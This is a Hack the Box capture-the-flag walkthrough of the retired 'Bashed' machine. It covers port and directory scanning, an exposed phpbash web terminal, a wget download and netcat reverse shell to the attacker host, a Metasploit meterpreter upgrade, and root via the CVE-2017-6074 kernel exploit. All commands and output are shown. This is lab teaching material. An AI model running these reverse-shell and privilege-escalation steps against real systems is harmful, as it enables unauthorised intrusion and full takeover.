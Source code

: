 ```yaml
---
title: Bashed, Hack the Box CTF Walkthrough
lead: Exploiting the Linux Kernel 4.4.0 (Ubuntu) - With DCCP Double-Free Privilege Escalation
tag: CTF
image: /assets/img/posts/2021-03-05-bashed-hack-the-box-walkthrough/bashed.png
layout: post
description: ""
date:   2021-03-04 20:01:21 -0400
last-updated: 2021-03-04 20:01:21 -0400
tag: ctf
author: Tyler Butler
description: "Bashed is an easy level CTF challenge from HTB, solved with an initial user compromise through a developer misconfiguration and privilege escalation with the Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free Privilege Escalation Exploit"
card: card-2
---
```


# Overview
<a href="https://app.hackthebox.eu/machines/118" class="highlighted">Bashed</a> is a boot to root CTF from the Hack the Box archives. This was one of my favorite retired HTB challenges so far. The challenge involves initial compromise using a developer's misconfigured server and requires significant more work to escalate privileges to root. This challenge forced me to think outside the box for managing shells and was overall a good CTF.  



## Enumeration  

First, I conducted a basic nmap scan to enumerate open ports and services running on the target machine. The scan revealed an apache webserver was running on port 80.  

```bash
┌──(kali㉿kali)-[~/Documents/htb/bashed]
└─$ nmap -sV --top-ports 200 10.10.10.68           
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-05 09:06 EST
Nmap scan report for 10.10.10.68
Host is up (0.035s latency).
Not shown: 199 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.05 seconds
```  

## Web Application Testing   

Nexct, I launched BurpSuite and a firefox browser to being inspecting the target's web application. In the background, I started `dirb` a directory brute forcing tool. The resulting dirb scan revealed a directory called `dev`.  

```bash
┌──(kali㉿kali)-[~/Documents/htb/bashed]
└─$ dirb http://10.10.10.68         

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Mar  5 09:10:15 2021
URL_BASE: http://10.10.10.68/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.68/ ----
==> DIRECTORY: http://10.10.10.68/css/                                                                                                          
==> DIRECTORY: http://10.10.10.68/dev/                                                                                                          
==> DIRECTORY: http://10.10.10.68/fonts/                                                                                                        
==> DIRECTORY: http://10.10.10.68/images/                                                                                                       
+ http://10.10.10.68/index.html (CODE:200|SIZE:7743)                                                                                            
==> DIRECTORY: http://10.10.10.68/js/                                                                                                           
==> DIRECTORY: http://10.10.10.68/php/                                                                                                          
+ http://10.10.10.68/server-status (CODE:403|SIZE:299)                                                                                          
==> DIRECTORY: http://10.10.10.68/uploads/    
```  

## Exploit Developer Tools  

After reading the index page of the website, I understood the server was also being used to develop the tool [php bash](https://github.com/Arrexel/phpbash). Browsing the /dev path shows that indeed, a working version of phpbash is running on the target server. The program allows a user to interact with a bash like terminal through the browser itself. I used this terminal to find the user flag, which was located at `/home/arrexel`.  

<div class="row mt-3">
    <div class="center">
        <img class="img-fluid rounded z-depth-1" src="/assets/img/posts/2021-03-05-bashed-hack-the-box-walkthrough/user-flag.png">
    </div>
</div>
<br/>  


## Privilege Escalation  

To start the privilege escalation process, I wanted to upgrade my shell from the phpBash shell to a meterpreter one. Unfortunately, when trying to send a reverse shell to my attacker machine with `netcat`, an error message occured stating that the -e option was not available. This was because the installed version of netcat was the BSD flavor (netcat-openBSD), only the traditional netcat (netcat-traditional) supports the -e option which is required to send a reverse shell. To get around this, I found a <a class="highlighted" href="https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/ncat">linux binary version</a>of the traditional netcat. After downloading the binary, I put in the `/var/www/html` directory to serve with the apache webserver, then used `wget` to download the file to the target machine through the dev phpBash terminal. 

```bash
www-data@bashed:/var/www/html/uploads# wget 10.10.14.13/ncat-d
```  

Next, I started a listener on my attack machine with the multi/handler on metasploit to catch the reverse shell.  

```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
```  
Once the handler was started, I used the the phpBash sell to issue a reverse shell through the uploaded ncat binary. 

```bash
www-data@bashed:./ncat-d 10.10.14.13 4444 -e /bin/bash
```  


```bash
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] Command shell session 1 opened (10.10.14.13:4444 -> 10.10.10.68:48554) at 2021-03-05 18:34:33 -0500
```  

### Upgrading to Meterpreter Shell

Once I recieved the reverse shell, I background it with the cntl-z option. To upgrade this basic shell to a meterpreter one, I used the `multi/manage/shell_to_meterpreter` module. After configuring the necessary options, I executed the module and started the meterpreter session.  

```bash
msf6 post(multi/manage/shell_to_meterpreter) > set LHOST 10.10.14.13
LHOST => 10.10.14.13
msf6 post(multi/manage/shell_to_meterpreter) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.14.13:4433 
[*] Sending stage (980808 bytes) to 10.10.10.68
[*] Meterpreter session 2 opened (10.10.14.13:4433 -> 10.10.10.68:42086) at 2021-03-05 18:38:50 -0500
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
msf6 post(multi/manage/shell_to_meterpreter) > 
```  

## Privilege Escalation via CVE-2017-6074

The last stage to escalate privileges was to find a public exploit that would work against the linux kernel. Some online research revealed that the Ubuntu 16.04 (Linux 4.4.0-62-generic) kernel being used by the target could be vulnerable to. CVE-2017-6074. I downloaded a proof of concept from <a class="highlighted" href="https://www.exploit-db.com/exploits/41458">exploi-db</a>. Using `GCC`, I compiled the exploit, then uploaded it to the target using the `upload` meterpreter command back in the metepreter session.  


```bash
meterpreter > upload /home/kali/Documents/htb/bashed/CVE-2017-6074
[*] uploading  : /home/kali/Documents/htb/bashed/CVE-2017-6074 -> CVE-2017-6074
[*] Uploaded -1.00 B of 23.19 KiB (-0.0%): /home/kali/Documents/htb/bashed/CVE-2017-6074 -> CVE-2017-6074
[*] uploaded   : /home/kali/Documents/htb/bashed/CVE-2017-6074 -> CVE-2017-6074
meterpreter > chmod 777 CVE-2017-6074 
meterpreter > shell
Process 819 created.
Channel 2 created.
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@bashed:~/html/uploads$ 


www-data@bashed:~/html/uploads$ whoami
whoami
www-data
www-data@bashed:~/html/uploads$ ./CVE-2017-6074
./CVE-2017-6074
[.] namespace sandbox setup successfully
[.] disabling SMEP & SMAP
[.] scheduling 0xffffffff81064550(0x406e0)
[.] waiting for the timer to execute
[.] done
[.] SMEP & SMAP should be off now
[.] getting root
[.] executing 0x564e7dc912aa
[.] done
[.] should be root now
[.] checking if we got root
[+] got r00t ^_^
[!] don't kill the exploit binary, the kernel will crash
root@bashed:/var/www/html/uploads# whoami
whoami
root
root@bashed:/var/www/html/uploads# cat /root/root.txt
cat /root/root.txt
cc4f0afe3a1026d402ba10329674a8e2
```


